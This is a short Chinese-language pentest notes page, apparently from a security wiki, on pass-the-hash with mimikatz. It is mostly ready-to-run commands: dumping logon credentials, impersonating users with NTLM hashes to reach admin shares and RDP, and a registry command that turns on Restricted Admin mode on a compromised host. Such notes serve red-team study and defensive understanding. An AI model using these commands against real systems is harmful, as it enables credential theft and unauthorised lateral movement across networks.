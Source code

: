 **mimikatz 进行 PtH**

1. (工作组)通过 pth 进行远程登录(cmd)
    ```bash
    mimikatz.exe privilege::debug

    mimikatz.exe privilege::debug "sekurlsa::pth /user:用户名  /domain:目标机器IP  /ntlm:密码哈希"

    mimikatz.exe privilege::debug "sekurlsa::pth /user:win10 /domain:192.168.1.1 /ntlm:xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx"

    net use \\192.168.1.1\c$
    dir \\192.168.1.1\c$
    ```

2. (域)通过 pth 进行远程登录(cmd)
    ```bash
    mimikatz.exe privilege::debug
    mimikatz.exe sekurlsa::logonpasswords

    mimikatz.exe privilege::debug "sekurlsa::pth /domain:目标机器的域 /user:目标机器的用户名 /ntlm:用户名对应的hash"

    mimikatz.exe privilege::debug "sekurlsa::pth /user:win10 /domain:test.com /ntlm:xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx"
    ```

3. 通过 pth 进行远程登录(mstsc)
    ```bash
    # 管理员权限下执行以下命令:
    mimikatz.exe privilege::debug "sekurlsa::pth /domain:目标机器的域 /user:目标机器的用户名 /ntlm:用户名对应的hash /run:mstsc.exe /restrictedadmin"
    ```

    RDP 限制管理模式是建立在 Kerberos 基础上的。看一下网络流量，可以看到 RDP 客户端代表模拟的用户请求 ticket，这没有问题，因为我们只需要通过哈希来验证 Kerberos。

**受限管理模式**

通过 pth 的方式远程登录有一个限制：受限管理模式(Restricted Admin mode)
- Windows8.1 和 Windows Server 2012(R2)默认支持该功能
- Win7 和 Windows Server 2008(R2)默认不支持该功能，需要安装补丁 KB2871997 和 KB2973351

1. 安装补丁 KB3126593,其原理与下述的修改注册表的原理是一致的
    - https://support.microsoft.com/en-us/help/2973351/microsoft-security-advisory-registry-update-to-improve-credentials-pro

2. 修改注册表
    ```bash
    HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa

    # 新建 DWORD 键值 DisableRestrictedAdmin，值为 0，代表开启;值为 1，代表关闭
    REG ADD "HKLM\System\CurrentControlSet\Control\Lsa" /v DisableRestrictedAdmin /t REG_DWORD /d 00000000 /f
    ```

    在获取目标系统权限之后，通过 cmd 交互，可以轻松关闭受限管理模式
